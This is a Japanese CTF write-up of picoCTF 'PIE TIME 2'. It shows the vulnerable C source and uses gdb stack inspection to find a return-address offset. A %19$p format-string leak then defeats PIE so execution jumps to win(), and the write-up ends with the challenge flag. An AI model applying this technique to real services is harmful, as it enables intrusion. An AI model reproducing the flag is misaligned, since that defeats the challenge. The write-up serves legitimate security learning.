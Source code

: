 ## PIE TIME 2

### 問題文

Can you try to get the flag? I'm not revealing anything anymore!!
Connect to the program with netcat:
`$ nc rescued-float.picoctf.net 63126`
The program's source code can be downloaded here. The binary can be downloaded here.

---

まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。 


まずは、提供されたソースコードをwgetで取得する。  
vuln と vuln.c が取得できた。  

下のようなコードだった。  
win関数にアクセスできれば、Flagをゲットできるみたいだが、win関数の呼び出しが見当たらない。

```c
/* 重要な部分のみ抜き出しています */
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  // Open file
  fptr = fopen("flag.txt", "r");

}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```


PIE TIMEとの違いは、mainアドレスが提供されず、nameを入力するところだ。  
しかし、入力された値をバリデーションチェックしていないのでそこを攻撃する  

デバッガー「gdb-peda」を使って、リターンアドレスを探す。

ローカルで実験。  
1. mainを逆アセンブルする。
逆アセンブルすると、下の様に表示され、call_functionsのリターンアドレスは、  
`0x0000555555555441`とわかる
![](./1.png)

2. winとリターンアドレスの差
先ほどのアドレスとwinのアドレスの差がどれほどあるのか調べる。  
下のように表示され、リターンアドレスと差を取ると、`0xd7`の差があった。  
このことから、リターンアドレス-0xd7の値を入力できれば、winを動かせる。
![](./2.png)

3. リターンアドレスの場所。
`printf(buffer);`が実行されたときのスタックの状態を見る。
リターンアドレスは、$rspが指すアドレスから8バイトごとに14個進んだ場所に格納されている。
  ```
  gdb-peda$ x/40gx $rsp
  0x7fffffffd940: 0x0000000000000000      0x00007ffff7fa6780
  0x7fffffffd950: 0x7025207025207025      0x2520702520702520
  0x7fffffffd960: 0x2070252070252070      0x7025207025207025
  0x7fffffffd970: 0x0a20702520702520      0x00007ffff7e0c600
  0x7fffffffd980: 0x0000000000000000      0x00007fffffffd9b0
  0x7fffffffd990: 0x00007fffffffdac8      0x9aa2cfbd64613900
  0x7fffffffd9a0: 0x00007fffffffd9b0      0x0000555555555441 <- リターンアドレス
  0x7fffffffd9b0: 0x0000000000000001      0x00007ffff7db4d90
  0x7fffffffd9c0: 0x0000000000000000      0x0000555555555400
  0x7fffffffd9d0: 0x0000000100000000      0x00007fffffffdac8
  ```

4. Format String Bugを使って、リターンアドレスを取得する
x86_64の呼び出し規約では、最初の6つの整数またはポインタの引数は汎用レジスタ(RDI, RSI, RDX, RCX, R8, R9)。
つまり、printf関数から見て、19(5+14)コ先にリターンアドレスが格納されている。  


サーバーにアクセス
1. Format String Bugを使って、`%19$p`でリターンアドレスを取得  
2. リターンアドレス - 0xd7 の値を入力して、win関数にアクセス  
3. Flagが表示される  
![](3.png)

Flagがゲットできた。

picoCTF{p13_5h0u1dn'7_134k_af46d901}